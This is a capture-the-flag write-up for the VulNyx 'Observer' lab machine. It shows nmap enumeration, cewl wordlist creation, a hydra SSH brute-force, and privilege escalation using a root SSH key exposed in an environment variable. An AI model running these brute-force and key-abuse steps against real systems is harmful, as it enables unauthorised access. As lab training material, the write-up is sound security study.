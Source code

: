 ```yaml
---
title: VulNyx - Observer Writeup
date: 2025-06-11 20:45:00 +0530
categories: [Vulnyx, Writeups]
tags: [linux, cewl, hydra, ssh-bruteforce, x11forwarding, credential-exposure, env, privesc]
description: 
---
```


`Observer` is an easy difficulty linux box. This machine consists of brute-forcing an SSH instance, initial access via X11Forwarding, user credential exposure, and finally privilege escalation via an exposed root SSH private key in the environment variables.

## Enumeration

### Nmap

Performing a basic port scan and service enumeration with `nmap` gives us the following 

```bash
❯ nmap -p- observer.nyx -v     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-11 08:43 EDT
Initiating ARP Ping Scan at 08:43
Scanning observer.nyx (192.168.25.16) [1 port]
Completed ARP Ping Scan at 08:43, 0.05s elapsed (1 total hosts)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Initiating SYN Stealth Scan at 08:43
Scanning observer.nyx (192.168.25.16) [65535 ports]
Discovered open port 22/tcp on 192.168.25.16
Discovered open port 80/tcp on 192.168.25.16
Completed SYN Stealth Scan at 08:43, 1.96s elapsed (65535 total ports)
Nmap scan report for observer.nyx (192.168.25.16)
Host is up (0.000087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:81:C3:75 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.13 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
❯ nmap -sC -sV -p 22,80 observer.nyx 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-11 08:43 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for observer.nyx (192.168.25.16)
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: iData-Hosting-Free-Bootstrap-Responsive-Webiste-Template
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:81:C3:75 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

As we can see we have OpenSSH running on port `22` and an Apache httpd server running on port 80

## HTTP (80)

We tried performing directory and v-host enumeration but could not find anything useful. However, the website content contained possible usernames as shown below.

![image.png](/assets/img/observer_vulnyx/image.png)

### Creating username wordlist

```bash
❯ cat users.txt                           
john
mike
remo
niscal
```

### Creating password wordlist (cewl)

We created a wordlist using `cewl` that can be used to attempt a SSH brute-force attack. 

```bash
❯ cewl http://observer.nyx -w wordlist.txt
```

## SSH Brute-force

By performing a brute-force attack we obtained valid SSH credentials `niscal:niscal`

```bash
hydra -L wordlist.txt -P wordlist.txt ssh://observer.nyx:22 -u 
```
![image.png](/assets/img/observer_vulnyx/image%206.png)

![image.png](/assets/img/observer_vulnyx/image%201.png)

Interesting..let’s try logging in by using trusted `X11Forwarding`



```bash
ssh -Y niscal@observer.nyx
```

We find exposed credentials for the user `remo`

![image.png](/assets/img/observer_vulnyx/image%202.png)

## User flag

![image.png](/assets/img/observer_vulnyx/image%203.png)

## Privilege Escalation

### Environment variables

We discovered an environment variable name `rootKEY` which appears to be encoded in `base64` 

![image.png](/assets/img/observer_vulnyx/image%204.png)

### Decoding base64 “rootKEY”

We decoded the base64 encoded `rootKEY` which revealed an SSH private key which we stored in the file `private_key` and modified permissions.

```bash
echo -n "redacted"| base64 -d > private_key
```

```bash
chmod 600 private_key
```

### Root flag

```bash
ssh -i private_key root@observer.nyx
```

![image.png](/assets/img/observer_vulnyx/image%205.png)